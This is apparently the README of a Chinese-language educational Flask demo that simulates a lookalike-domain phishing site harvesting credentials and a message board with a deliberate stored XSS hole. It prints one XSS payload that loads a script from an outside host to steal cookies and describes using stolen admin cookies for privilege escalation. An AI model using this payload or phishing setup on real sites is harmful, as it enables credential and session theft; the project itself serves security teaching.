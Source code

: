# 钓鱼网站与XSS攻击演示项目

## 项目简介
本项目是一个基于Python 3.12和Flask框架开发的本地演示系统，旨在模拟钓鱼网站的攻击手法、原理以及XSS注入与越权访问的危害。

由于实际环境中，网站普遍采用HTTPS协议、复杂的Cookie验证机制以及人机验证等安全措施，使得通过POST提交表单实现中间人攻击和钓鱼的难度大大增加。因此，本项目在本地环境搭建，采用明文传输方式，以便更直观地展示相关攻击原理。

## 项目结构
项目包含两个主要部分：
- 正常网站：运行在 http://example.com:5000
- 钓鱼网站：运行在 http://examp1e.com:5001（注意域名中是数字"1"而非字母"l"）

通过执行`start_servers.bat`可同时启动两个服务器。

## 功能说明
### 正常网站
1. **登录功能**：用户通过登录界面输入用户名和密码进行登录，系统验证通过后生成并设置认证令牌（auth_token）和用户名Cookie。
2. **主页展示**：登录成功后进入主页，显示用户信息（用户名、账户类型、上次登录时间等）。
3. **留言板功能**：
   - 已登录用户可在留言板发布留言。
   - 用户可编辑或删除自己发布的留言。
   - 留言数据存储在`messages.json`文件中。

### 钓鱼网站
钓鱼网站一比一复刻了正常网站的登录界面，唯一的区别在于用户提交的表单数据会发送到钓鱼网站的服务器，这是钓鱼网站的关键所在。

## 攻击演示

### 1. 钓鱼攻击实施
1. **诱导访问**：当用户被诱导访问域名相似的钓鱼网站（examp1e.com）时，如果不注意URL细节，很容易被蒙骗。
2. **信息窃取**：用户在钓鱼网站登录界面输入真实用户名和密码后，钓鱼网站会获取这些信息并存储在`data.txt`文件中。
3. **无缝跳转**：钓鱼网站会使用获取到的用户信息在真实网站上进行POST登录，然后将成功登录后的响应返回给用户，并将用户重定向到正常网站。用户后续操作不会察觉到异常，从而实现了信息窃取而不被发现。

### 2. XSS注入与越权访问
1. **XSS注入**：正常网站的留言板存在XSS注入漏洞。攻击者可在留言中插入恶意脚本（如`<sCRiPt/SrC=//ujs.ci/weo></script>`）。
2. **信息获取**：当其他用户（包括管理员）查看包含恶意脚本的留言时，脚本会执行，可获取用户的Cookie、IP地址、浏览器信息等隐私数据。
3. **越权访问**：一旦管理员的Cookie被获取，攻击者可使用Burpsuite等工具在请求数据包中添加管理员的Cookie信息。正常网站会误认为攻击者是管理员而允许访问，从而实现越权访问。

## 运行说明
1. 确保已安装Python 3.12及Flask框架。
2. 执行`start_servers.bat`启动正常网站和钓鱼网站。
3. 分别通过对应的域名访问两个网站进行演示。

## 注意事项
- 本项目仅用于教育和演示目的，旨在帮助理解网络安全威胁，请勿用于非法用途。
- 实际网络环境中，应采取多种安全措施保护个人信息和网站安全，如仔细核对URL、启用HTTPS、定期更新系统和软件等。
